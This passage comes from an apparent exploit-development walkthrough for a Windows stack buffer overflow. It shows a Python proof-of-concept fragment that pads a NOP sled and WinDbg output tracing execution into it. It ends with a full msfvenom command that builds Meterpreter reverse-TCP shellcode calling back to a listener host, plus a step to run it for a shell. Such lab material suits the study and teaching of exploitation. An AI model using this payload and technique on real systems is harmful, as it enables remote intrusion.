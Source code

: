 We can see all our intruction, but it appear that esp didnt point to the beginning of our shellcode buffer as we dont see our NOPS instruction.

To overcome this simply expand the number of NOPs instruction before our shellcode.

```python
...
size = 1000

shellcode = b"\x90" * 20
shellcode += b"\x43" * (400 - len(shellcode))
...
```

```bash
0:010> dd @esp L4  
01cafc74 90909090 90909090 43434343 43434343  
  
0:010> t  
eax=77383b02 ebx=01caf540 ecx=1015a2f0 edx=77383b20 esi=00000000 edi=00000000  
eip=01cafc74 esp=01cafc74 ebp=01caf458 iopl=0 nv up ei ng nz na pe nc  
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000286  01cafc74 90 nop
```

### 11. Get a Shell!<a name="Shell"></a>

Generate the shellcode and update the PoC.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.118.5 LPORT=443 -b "\x00\x02\x0A\x0D\xF8\xFD" -f python -v shellcode
```

Start a listener and run the PoC to get a shell!
